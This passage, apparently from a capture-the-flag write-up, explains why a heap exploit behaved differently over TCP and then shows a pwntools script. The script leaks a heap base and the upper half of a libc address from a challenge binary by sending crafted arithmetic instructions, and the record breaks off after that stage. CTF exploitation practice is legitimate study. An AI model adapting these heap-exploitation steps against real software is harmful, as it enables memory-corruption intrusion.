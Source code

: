 The inconsistencies are these two:
- The gap between tcache metadata and our freed tcache chunks are 0x1000 larger over TCP
- The fake IO_FILE's address's lower 3 digits are 0x740 while it is 0xb40 locally

### exp working remotely
```py

from pwn import *
context(log_level = 'debug', arch = "amd64", os = "linux")
p = process("./chall")
# p = remote("34.252.33.37",32040)
# 34.252.33.37:32040
# p = process("strace -o ./log ./chall".split(" "))
# p = remote("34.252.33.37", 30500)
# 34.252.33.37:30500
libc = ELF("./libc.so.6")

p.recvuntil("--- Enter code ---\n")

p.sendline("0")
p.sendline("0")
p.sendline("mul")
p.sendline("add")
p.sendline("add")
for i in range(5):
    p.sendline("mul")


p.sendline("add")
p.sendline("end")
p.recvuntil("Result: ")
heap_leak = int(p.recvline().strip())
heap_base = (heap_leak + 0x500000000)*0x1000 # actually it is heap leak
log.info("heap_base: " + hex(heap_base))

# libc leak upper
p.recvuntil("--- Enter code ---\n")
for i in range(0x210):
    p.sendline("0")
p.sendline("add")

for i in range(0x20f):
    p.sendline("add")

p.sendline("add")
p.sendline("mul")


p.sendline("add")
p.sendline("mul")
p.sendline("mul")

for i in range(0x1fa):
    p.sendline("mul")
p.sendline("add")
# gdb.attach(p)
# pause()
p.sendline("end")

p.recvuntil("Result: ")
libc_upper = int(p.recvline().strip())
log.info("libc_upper: " + hex(libc_upper))

```